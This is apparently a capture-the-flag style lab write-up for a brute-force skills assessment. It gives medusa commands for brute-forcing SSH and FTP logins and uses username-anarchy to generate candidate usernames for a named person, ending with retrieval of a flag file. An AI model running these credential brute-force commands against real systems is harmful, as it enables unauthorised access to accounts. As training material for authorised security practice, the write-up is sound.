 # Skills Assessment Part 2

### What is the username of the ftp user you find via brute-forcing?

For this Skills Assessment it is required that you completed successfully the [Skills Assessment Part 1](skills-assessment-part-1.md). We have to use the user founded previously and brute-force the credentials with the ssh module.

**Step 1** - Brute-force the new target with the new user:

* {% code overflow="wrap" %}
  ```bash
  medusa -h <SERVER_IP> -n <SERVER_PORT> -u <USER> -P 2023-200_most_used_passwords.txt -M ssh -t 3
  ```
  {% endcode %}
*

    <figure><img src="../../../.gitbook/assets/image (183).png" alt=""><figcaption></figcaption></figure>

**Step 2** - Login into the new target:

* {% code overflow="wrap" %}
  ```bash
  ssh <USER>@<SERVER_IP> -p <SERVER_PORT>
  ```
  {% endcode %}
* After login to the machine, lets make sure the ftp service is running with a simple `nmap localhost` command:

<figure><img src="../../../.gitbook/assets/image (185).png" alt=""><figcaption></figcaption></figure>

**Step 3** - Explore the target machine:

* It looks like the FTP server was already compromise. By checking the IncidentReport.txt we get some interesting information:
*

    <figure><img src="../../../.gitbook/assets/image (186).png" alt=""><figcaption></figcaption></figure>
* The user Thomas Smith was responsible for uploading files to the server. Our task is to find ftp user, and we can use the `username-anarchy` tool to generate usernames by combining the Thomas Smith name.

**Step 4** - Find the user and password to the ftp server:&#x20;

* Move to the `username-anarchy` folder and generate usernames for Thomas Smith:
  * {% code overflow="wrap" %}
    ```bash
    ./username-anarchy Thomas Smith > thomas_smith_usernames.txt
    ```
    {% endcode %}
* Brute-force the ftp authentication with medusa (we have a passwords.txt in the main directory):
  * {% code overflow="wrap" %}
    ```bash
    medusa -h 127.0.0.1 -U username-anarchy/thomas_smith_usernames.txt -P passwords.txt -M ftp -t 5
    ```
    {% endcode %}
* User and password found!

<figure><img src="../../../.gitbook/assets/image (191).png" alt=""><figcaption></figcaption></figure>

### What is the flag contained within flag.txt

**Step 1** - Connect to the ftp server:

* {% code overflow="wrap" %}
  ```bash
  ftp 'ftp://<USER>:<PASSWORD>@localhost'
  ```
  {% endcode %}

**Step 3** - Retreive the flag:

* Upon having logged in into the ftp service. You will easily find the flag with the `ls` command, then just download it with get `flag.txt`.

<figure><img src="../../../.gitbook/assets/image (192).png" alt=""><figcaption></figcaption></figure>

And we are done! Very fun section with good and practical examples that show us how to use brute-force tools.
